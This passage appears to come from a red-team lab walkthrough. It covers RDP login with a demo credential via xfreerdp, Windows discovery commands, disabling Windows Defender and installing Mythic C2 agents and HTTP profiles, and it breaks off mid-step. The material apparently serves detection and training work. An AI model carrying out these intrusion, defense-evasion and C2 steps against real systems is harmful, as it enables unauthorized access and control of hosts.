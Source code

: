 - On success you should see `RDP success` with a timestamp and the successful credential (in the demo: `administrator : Winter2024!`).

- Connect with `xfreerdp`:

```bash
xfreerdp /u:administrator /p:'Winter2024!' /v:149.248.59.41:3389
# Accept certificate prompt when asked
```

---

### Phase 2 — Discovery (on compromised Windows Server)

Common commands executed from Windows command prompt to generate telemetry:

```powershell
whoami
ipconfig
net user
net group
net user administrator
```

- `net user administrator` shows membership in local Administrators group → indicates elevated privileges.

---

### Phase 3 — Defense Evasion (disable Windows Defender)

Two approaches:

1. GUI: Windows Security → Manage settings → uncheck Real-time protection and other protections.
2. CLI / Policy edits (demo used GUI).

**Goal:** disable Defender protections to allow payload execution (lab only).

---

### Phase 4 — Execution (build and host Mythic agent)

- Use Mythic (server + web GUI + CLI) to install agents and C2 profiles.

Demo steps (Mythic CLI and web GUI):

1. On Mythic server CLI:

```bash
# Open Mythic CLI
sudo mythic-cli
# Install agents from GitHub (example: Apollo)
install_github https://github.com/its-a-feature/Mythic_Agents/apollo
# Install C2 profile (HTTP)
install_github https://github.com/its-a-feature/Mythic_C2_Profiles/http
```

2. In Mythic web GUI:
